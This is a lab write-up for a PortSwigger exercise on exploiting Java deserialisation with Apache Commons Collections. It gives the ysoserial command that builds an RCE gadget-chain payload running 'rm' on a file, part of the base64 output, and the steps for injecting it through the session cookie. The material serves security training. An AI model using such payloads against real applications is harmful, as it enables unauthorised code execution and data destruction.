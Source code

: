 # Exploiting Java deserialisation with Apache Commons

## Description

[This lab](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-java-deserialization-with-apache-commons) uses a serialisation-based session mechanism and loads the Apache Commons Collections library. 

## Reproduction

1. Log in with `wiener:peter`. The session cookie is URL and base64 encoded and contains a serialised Java object (the first two bytes are `aced`). Send a request containing the session cookie to Burp Repeater.
2. Download the [Ysoserial](https://github.com/frohoff/ysoserial) tool, [if need be, make the on kali necessary changes to run it](https://red.tymyrddin.dev/projects/app/en/latest/docs/techniques/id.html##ysoserial-on-kali).
3. Execute the command to generate a Base64-encoded serialised object containing an RCE payload. The application uses Apache Commons Collections library, so use a `CommonsCollections` payload:

```text          
$ java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBh
cmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAQm9yZy5hcGFjaGUuY29tbW9u
cy5jb2xsZWN0aW9uczQuY29tcGFyYXRvcnMuVHJhbnNmb3JtaW5nQ29tcGFyYXRvci/5hPArsQjM
AgACTAAJZGVjb3JhdGVkcQB+AAFMAAt0cmFuc2Zvcm1lcnQALUxvcmcvYXBhY2hlL2NvbW1vbnMv
...
```

4. In Burp Repeater, replace the session cookie with the malicious one just created. Select the entire cookie and then URL-encode it.
5. Send the request to solve the lab.

## PoC

[![Screencast PoC Exploiting Java deserialisation with Apache Commons](../../_static/images/vids/exploit-java-deserialisation-apache.png)](https://vimeo.com/799221455)

## Exploitability

Although attackers do not have source code access, they can still exploit this lab using pre-built gadget chains. An attacker will need to log in; use a third-party tool to generate a malicious serialised object containing a remote code execution payload; and pass this object into the website to delete the `morale.txt` file from Carlos's home directory. 

